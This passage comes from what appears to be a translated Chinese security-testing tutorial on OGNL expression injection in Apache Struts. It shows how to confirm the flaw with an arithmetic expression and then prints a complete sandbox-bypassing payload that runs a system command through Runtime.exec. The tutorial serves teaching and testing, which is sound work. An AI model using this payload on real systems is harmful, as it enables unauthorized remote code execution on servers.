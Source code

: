 1.  当我们这样做时，服务器会处理我们的`Testing123`字符串，并用相同的字符串做出响应：

![](img/e2d6107e-672a-4815-8e8d-625244797946.png)

1.  要测试诸如 OGNL 之类的表达式语言注入，我们需要使用`${..}`或`%{..}`语法。OGNL 将处理包含在`${..}`或`%{..}`中的任何内容。因此，为了进行简单的测试，让我们使用`${123*123}`或`%{123*123}`字符串：

![](img/22f2e91b-a078-4f9f-8287-983fd56ca758.png)

1.  由于代码位于以`$`或`%`开头的括号中，服务器将其处理为 OGNL 表达式，并以以下屏幕截图中显示的结果做出响应：

![](img/081adc0f-5dc1-4a35-8c6f-cf95e6b9f3c6.png)

现在我们已经成功确认了前面测试案例中的漏洞，让我们了解如何在执行进程上进行 OGNL 注入时，如何注入有效负载并绕过沙箱（如果有的话）。

# 测试 OGNL 注入的远程代码执行

为了测试漏洞，我们将使用以下有效负载：

```
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```
